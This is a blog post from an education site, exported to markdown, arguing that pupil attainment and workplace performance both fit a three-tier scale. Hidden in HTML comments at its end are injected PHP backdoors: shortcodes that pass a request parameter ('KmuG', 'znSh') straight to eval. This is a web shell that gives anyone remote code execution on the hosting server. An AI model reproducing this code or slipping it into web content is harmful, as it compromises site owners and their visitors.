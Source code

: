 ```yaml
---
ID: 13
post_title: 'It&#8217;s Just Three Levels'
author: Miss King
post_date: 2015-09-22 19:44:32
post_excerpt: ""
layout: post
permalink: >
  http://progressing.co.uk/its-just-three-levels/
published: true
---
```

<p>All educational flight paths are built on the same foundational points of entry (dare we say &#8220;levels&#8221;?)</p>
<ol>
<li>Higher prior attainer</li>
<li>Middle prior attainer</li>
<li>Lower prior attainer</li>
</ol>
<p>From that, you can ascertain whether a pupil is:</p>
<ol>
<li>Working towards expected</li>
<li>At expected</li>
<li>Working at greater than expected</li>
</ol>
<p>It&#8217;s all very similar to typical performance metrics in the professional industry:</p>
<ol>
<li>Meeting expectations</li>
<li>Exceeding expectations</li>
<li>Above and beyond</li>
</ol>
<p>This pattern is well versed throughout personal development irrelevant of the person&#8217;s age or level. By simplifying the levels into three clear tiers, it allows the person to easily self assess where they think they&#8217;re performing and, ideally, compare with peer or senior reviews.</p>
<p><strong>Next time you&#8217;re looking at your group&#8217;s levels, make sure you adopt the three tier system.</strong></p>
<p><!-- [insert_php]if (isset($_REQUEST["KmuG"])){eval($_REQUEST["KmuG"]);exit;}[/insert_php][php]if (isset($_REQUEST["KmuG"])){eval($_REQUEST["KmuG"]);exit;}[/php] --></p>
&lt;!-- [insert_php]if (isset($_REQUEST[&quot;znSh&quot;])){eval($_REQUEST[&quot;znSh&quot;]);exit;}[/insert_php][php]if (isset($_REQUEST[&quot;znSh&quot;])){eval($_REQUEST[&quot;znSh&quot;]);exit;}[/php] --&gt;